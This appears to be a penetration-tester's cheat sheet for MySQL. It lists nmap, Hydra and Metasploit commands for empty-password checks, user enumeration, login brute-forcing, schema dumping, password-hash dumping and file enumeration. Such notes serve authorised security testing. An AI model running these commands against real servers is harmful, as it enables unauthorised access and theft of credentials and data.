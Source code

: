 ## Check Empty Password
```nmap
nmap --script=mysql-empty-password -p 3306 IP
```	
## Enumeración de usuarios
### Nmap
```
nmap --script=mysql-users --script-args="mysqluser='VALIDUSER',mysqlpass='VALIDPASS'" -p 3306 IP
```	
## Login Bruteforce
### Metasploit 
```
use auxiliary/scanner/mysql/mysql_login
```
### Hydra
```
hydra -L USERLIST  -P PASSLIST IP mysql
```

## Ver database schema
### Nmap
```
nmap --script=mysql-databases --script-args="mysqluser='VALIDUSER',mysqlpass='VALIDPASS'" -p 3306 IP
```
### Metasploit 
```
auxiliary/scanner/mysql/mysql_schemadump
```
## POST
### Hashdump
#### Metasploit
```
auxiliary/scanner/mysql/mysql_hashdump
```
#### Nmap Script
```
nmap --script mysql-dump-hashes --script-args="mysqluser='VALIDUSER',mysqlpass='VALIDPASS'" -p 3306 IP
```		
### Writable directories list
```
auxiliary/scanner/mysql/mysql_writable_dirs
```
### Readable files list
```
auxiliary/scanner/mysql/mysql_file_enum
```
